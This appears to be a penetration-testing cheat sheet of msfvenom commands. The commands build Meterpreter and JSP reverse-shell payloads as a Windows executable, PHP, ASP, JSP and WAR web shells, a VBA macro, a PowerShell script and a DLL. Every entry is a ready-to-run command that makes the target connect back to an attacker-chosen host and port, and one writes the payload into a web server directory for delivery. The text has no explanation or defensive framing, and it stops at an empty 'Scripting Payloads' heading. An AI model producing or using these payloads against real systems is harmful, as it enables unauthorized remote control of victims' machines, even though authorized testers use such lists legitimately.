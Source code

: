 ## meterpreter x64 - https - staged
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> -f exe -o /var/www/html/msfstaged.exe
```

## Web Payloads

## PHP Meterpreter Reverse TCP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.php
```

## ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > shell.asp
```

## JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.jsp
```

## WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war > shell.war
```

## VBA 32bits
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> EXITFUNC=thread -f vbapplication
```

## powershell 32 bits
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> EXITFUNC=thread -f ps1
```

## DLL
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> -f dll -o <dll|output.dll>
```

# Scripting Payloads
